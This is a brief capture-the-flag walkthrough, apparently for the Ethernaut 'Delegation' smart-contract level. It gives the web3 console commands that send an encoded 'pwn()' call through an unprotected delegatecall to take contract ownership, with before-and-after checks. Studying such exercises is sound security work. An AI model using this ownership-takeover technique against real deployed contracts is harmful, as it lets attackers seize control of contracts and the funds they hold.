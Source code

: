 # Delegation

Use unprotected ``delegatecall`` function to execute vulnerable code.

Type in the browser console:

```
> await contract.owner() == player
false
```

Execute following code:

```
var encodedTransactionData = web3.eth.abi.encodeFunctionSignature('pwn()');
await contract.sendTransaction({ from: player, data: encodedTransactionData });
```

Type in the browser console:

```
> await contract.owner() == player
true
```

Level completed.
